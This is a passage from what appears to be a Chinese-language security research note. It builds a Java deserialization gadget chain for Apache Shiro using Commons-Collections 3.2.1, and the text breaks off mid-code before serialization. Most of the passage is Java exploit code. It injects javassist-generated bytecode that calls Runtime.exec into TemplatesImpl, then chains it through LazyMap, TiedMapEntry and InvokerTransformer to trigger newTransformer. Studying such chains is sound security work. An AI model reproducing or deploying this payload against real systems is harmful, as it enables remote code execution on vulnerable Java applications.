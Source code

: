 这里将Commons-Collections版本更改为3.2.1，然后进行测试
```
<dependency>
	<groupId>commons-collections</groupId>
	<artifactId>commons-collections</artifactId>
	<version>3.2.1</version>
</dependency>
```

发现cc1-7的利用链都不行了，需要重新创造一条新的利用链
参考p神的：[https://github.com/phith0n/JavaThings/blob/master/shiroattack/src/main/java/com/govuln/shiroattack/CommonsCollectionsShiro.java](https://github.com/phith0n/JavaThings/blob/master/shiroattack/src/main/java/com/govuln/shiroattack/CommonsCollectionsShiro.java)
```java
package CommonsCollections;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class cc_shiro {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception{
        //读取恶意类 bytes[]
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        ClassPool classPool=ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass payload=classPool.makeClass("CommonsCollectionsshiro");
        payload.setSuperclass(classPool.get(AbstractTranslet));
        payload.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");
        //转换为byte数组
        byte[] bytes=payload.toBytecode();

        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][] {bytes});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        Transformer transformer = new InvokerTransformer("getClass", null, null);

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformer);

        TiedMapEntry tme = new TiedMapEntry(outerMap, obj);

        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");

        outerMap.clear();
        setFieldValue(transformer, "iMethodName", "newTransformer");

```